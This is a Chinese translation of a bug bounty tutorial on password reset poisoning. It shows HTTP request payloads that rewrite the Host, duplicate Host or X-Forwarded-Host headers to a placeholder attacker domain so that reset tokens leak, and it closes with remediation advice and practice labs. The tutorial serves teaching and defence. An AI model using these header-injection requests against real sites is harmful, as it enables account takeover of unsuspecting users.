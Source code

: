 # 利用密码重置中毒

> 原文：<https://infosecwriteups.com/exploiting-password-reset-poisoning-b748797f0661?source=collection_archive---------1----------------------->

![](img/85a7fb778a8e9ebc3f9bc5d16d06dc4d.png)

来自 [Pixabay](https://pixabay.com/?utm_source=link-attribution&amp;utm_medium=referral&amp;utm_campaign=image&amp;utm_content=1583432) 的[摄影师](https://pixabay.com/users/thedigitalway-3008341/?utm_source=link-attribution&amp;utm_medium=referral&amp;utm_campaign=image&amp;utm_content=1583432)

迄今为止，我最赚钱的 bug 奖金之一来自一个密码重置中毒漏洞。这篇文章介绍了发现、利用和修复这个漏洞的过程，以帮助你在自己的披露中获得最大的回报！

# 概观

密码重置中毒是一种基于标题的攻击，攻击者可以操纵密码重置链接的 URL。通过在应用程序的密码重置过程中添加或修改 HTTP 请求头值，有可能覆盖发送给用户的链接的域:

```
Hi,Click the link below to reset your password:
https://<attacker-domain>/reset?token=123456789
```

单击后，重置令牌会被转发到攻击者控制的域，从而导致帐户被接管。

![](img/6a84047576d5f0dcca41a1f8c104d299.png)

作者照片

# 剥削

1.  导航到 web 应用程序的“密码重置”页面。
2.  输入目标用户帐户的名称、用户名或电子邮件。
3.  使用 web 应用程序代理( *BurpSuite、OWASP-ZAP 等*)拦截请求并将`Host:`头值修改为攻击者控制的地址:
    *没有自己的服务器？打嗝合作者链接有帮助*🙂

```
POST /login/password-reset HTTP/1.1
Host: <attacker-domain>
..
{"email":"target-user@company.com"}
```

4.用户将从该网站收到一封合法的密码重置电子邮件。但是，包含秘密重置令牌的链接将显示我们修改的头值:
`**https://<attacker-domain>/reset?token=123456789**`

5.一旦用户单击，攻击者就可以拦截令牌并在目标应用程序上重放其值，从而成功重置受害者的密码以进行完全帐户接管！

![](img/2daa45d5cc9f1606517ed906bfb15502.png)

由 [PortSwigger](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning https://portswigger.net/web-security/images/password-reset-poisoning.svg) 执行的工作流

# 高级开发

主机头不起作用？尝试这些技巧:

## **双主机头:**

根据服务器对 HTTP 请求中重复的`Host`头的反应，恶意输入可能优先于默认输入:

```
POST /login/password-reset HTTP/1.1
Host: example.com
Host: <attacker-domain>
...
```

## **测试覆盖标题:**

诸如`X-Forwarded-Host`、`X-Forwarded-Server`、`X-HTTP-Host-Override`和 `X-Host`之类的覆盖标头有时可以替代`Host`标头值，从而成功利用漏洞:

```
POST /login/password-reset HTTP/1.1
Host: example.com
X-Forwarded-Host: <attacker-domain>
...
```

# 补救

## 为什么会这样？

当网站依靠标题值来引导流量或制作页面链接时，可能会发生密码重置中毒。如果不加检查，攻击者可以注入他们自己的值并修改应用程序的预期行为。

## 怎么修？

最简单的方法是避免使用标题值来定义站点导航。请求头不是受保护的字段，可以被用户修改以注入恶意输入。此外，执行`Host`头验证并移除对覆盖头(如`X-Forwarded-Host`)的支持是很好的缓解策略。

要了解更多防范方法，请查看本文中[的](https://portswigger.net/web-security/host-header) [*防范 HTTP 主机报头攻击*](https://portswigger.net/web-security/host-header) 部分。

# 实践资源

想自己试试这个技巧吗？结账:

*   PortSwigger 实验室:[基本密码重置中毒](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-basic-password-reset-poisoning)。
*   PortSwigger 实验室:[通过中间件进行密码重置中毒](https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware)。
*   PortSwigger Lab: [通过悬空标记进行密码重置中毒](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup)。

感谢阅读！在 [m8sec.dev](https://m8sec.dev) 了解更多关于我的信息，并关注更多攻击性安全内容。

*免责声明:所有内容仅用于教育目的。作者不对信息的使用负责。不要对你不拥有或没有明确许可的系统进行测试。*